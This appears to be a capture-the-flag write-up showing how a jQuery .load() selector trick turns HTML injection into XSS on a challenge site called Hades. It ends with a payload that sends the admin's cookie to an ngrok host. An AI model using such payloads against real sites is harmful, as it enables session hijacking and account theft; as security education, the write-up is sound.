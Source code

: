 ```yaml
---
description: jQuery-facilitated XSS
---
```


# Hades

## Overview

> Don't stop retrying!

This is basically a site that uses jQuery a bunch of AJAX requests to dynamically load the page content. For example, let's load the "news" category at `?cat=news`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-20 at 2.25.48 PM.png" alt=""><figcaption></figcaption></figure>

Observing the HTML response, the `news` string is reflected twice in the JavaScript.

```markup
<script>
  console.log('cat in url');
  $('#ajax-load').load('/ajax/articles?cat=news');
  $('.search-filter ul li.tag').removeClass('active');
  $('.search-filter ul li[data-id="news"]').addClass('active');
  $('.search-filter ul li.tag').click(function() {
    $('.search-filter ul li.tag').removeClass('active');
    $(this).addClass('active');
    $('#ajax-load').html('<hr/><div class="loading"></div><hr/>');
    $('#ajax-load').load('/ajax/articles-results?cat=' + $(this).data('id'));
  });
</script>
```

Trying to use a single quote to break out of the string (`/?cat=news'`) doesn't work - a `\` is prepended to it.

```javascript
$('#ajax-load').load('/ajax/articles?cat=news\'');
```

After doing some testing, I found that the `\` character isn't escaped and `/?cat=news\\'` breaks out of the string.

However, because any `()` characters are removed and subsequent quotes are still escaped, I couldn't produce valid JavaScript after breaking out of the string.

```javascript
$('#ajax-load').load('/ajax/articles?cat=test\\'+alert``');
$('.search-filter ul li.tag').removeClass('active');
$('.search-filter ul li[data-id="test\\'+alert``"]').addClass('active');
```

It seems that we need to find another way to achieve XSS.

## Getting XSS

The first line of the JavaScript tells jQuery to fetch `/ajax/articles?cat=news` and set its contents as the HTML of the `#ajax-load` element.

```javascript
$('#ajax-load').load('/ajax/articles?cat=news');
```

Because we also control the `cat` parameter in this second request, we can try to find a HTML injection vector in `/ajax/articles` and inject it into `#ajax-load`.

The following request

```
/ajax/articles?cat=asdf"x="
```

injects an attribute into the `<img>` element in the response.

```markup
<noscript>
    If you can't see anything, you have to enable javascript
    <img src="/images/error.jpg" alt="selected category asdf"x="" />
</noscript>
```

Looking at jQuery's [`.load()` documentation](https://api.jquery.com/load/), we find an interesting feature that allows us to specify a specific portion of the remote document that we want to insert.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-20 at 2.55.38 PM.png" alt=""><figcaption></figcaption></figure>

This allows us to get rid of the pesky `<noscript>` tag end _only_ load the `<img>` element inside.

```
/?cat=random"onerror="alert`` img
```

will render

```markup
<img src="/images/error.jpg" alt="selected category random"onerror="alert``" />
```

and give us XSS.

We can use the following payload to steal the admin's cookie and get the flag.

{% code overflow="wrap" %}
```
/?cat=random"onerror="window.location=`https://f5e6-49-245-33-142.ngrok.io?${document.cookie}` img 
```
{% endcode %}
